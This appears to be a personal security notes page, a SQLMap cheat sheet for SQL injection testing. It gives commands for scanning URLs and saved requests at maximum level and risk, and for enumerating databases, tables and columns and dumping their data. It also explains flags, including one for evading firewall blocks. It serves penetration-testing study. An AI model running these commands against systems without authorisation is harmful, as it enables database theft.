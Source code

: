 ```yaml
---
tags:
  - security
  - sqli
  - web
title: SQLMap
date: 2024-01-28 14:15:56 -0600
updated: 2024-03-29 23:31:52 -0500
---
```


````bash
# Extended Help
sqlmap -hh
````

#### Test Website for Vulnerability

````bash
# Increase Aggressiveness of Scan
sqlmap -u "<URL>" --level=5 --risk=3

sqlmap -r <request-file> --string="<text-if-query-true>"

# POST Request
sqlmap -u "<URL>" --data="user=name&password=pass" -p "user,password"
````

Sometimes this might not work in that case we need to specify the fields that need to be tested
Burp Suite - Repeater - Request (Replace the payload values with `*`  
e.g.  `username=*&password=*` : Save as file

````bash
sqlmap -r <request-file>
````

#### Retrieve Database Names

````bash
sqlmap -u <URL> --dbs

# Return DB that is currently used
sqlmap -u <URL> --current-dbs
````

#### All Tables from Database

````bash
sqlmap -u <URL> -D <db-name> --tables
````

#### Columns from Table

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> --columns
````

#### View Data from Column

````bash
sqlmap -u <URL> -D <db-name> -T <table-name> -C <column-name>
````

**Flags**  
`-u URL`: Target URL  
`--level=5`: Through Scan (Default : 1)  
`--risk=3`: Risk Level (Default : 1)  
`-r filename`: Provide the request file  
`--random-agent`: Request blocked by firewall  
`--dump`: Exploit Vulnerability Save result to file

`--string "string"`: String present on result page (Required for Blind Injection)  
`--dbms=dbms-name`: Pass Database Type (MySQL, PostgreSQL, etc.)

`--technique` : BEUSTQ  
`B`: Boolean-based blind  
`E`: Error-based  
`U`: Union query-based  
`S`: Stacked queries  
`T`: Time-based blind  
`Q`: Inline queries
